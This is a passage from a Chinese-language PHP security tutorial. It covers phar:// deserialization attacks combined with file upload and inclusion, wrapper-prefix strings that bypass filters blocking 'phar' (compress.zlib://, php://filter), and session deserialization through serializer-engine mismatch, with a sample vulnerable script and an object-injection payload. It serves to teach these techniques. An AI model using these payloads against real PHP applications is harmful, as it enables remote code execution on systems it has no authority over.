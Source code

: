 
将生成的phar文件上传，并且用phar协议包含（配合文件上传文件包含打组合拳），即可执行其中的命令



只要调用了`php_stream_open_wrapper`的函数,都存在此漏洞



### 过滤绕过

#### 字符

当环境限制了phar不能出现在前面的字符里
```
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### 文件

php识别phar文件是通过文件头的stub，即`__HALT_COMPILER();?>`这段代码

所以可以任意修改文件后缀，或者添加其他文件文件头



## Session反序列化

session反序列化的漏洞是由三种不同的**反序列化引擎**所产生的的漏洞：

`php_binary`:存储方式是，键名的长度对应的ASCII字符+键名+经过`serialize()`函数序列化处理的值

`php`:存储方式是，键名+竖线+经过serialize()函数序列处理的值

`php_serialize`(php>5.5.4):存储方式是，经过`serialize()`函数序列化处理的值

三种引擎的存储格式：

```php
php : a|s:3:"zzz";
php_serialize : a:1:{s:1:"a";s:3:"zzz";}
php_binary : as:3:"zzz";
```



#### 可传入session

1.php

```php
<?php
ini_set("session.serialize_handler", "php_serialize");

session_start();
$_SESSION['zzz'] = $_GET['a'];
echo "";
var_dump($_SESSION);
echo "";
?>
  
#传入 |O:7:"student":2:{s:4:"name";s:4:"name";s:3:"age";s:3:"100";}
```

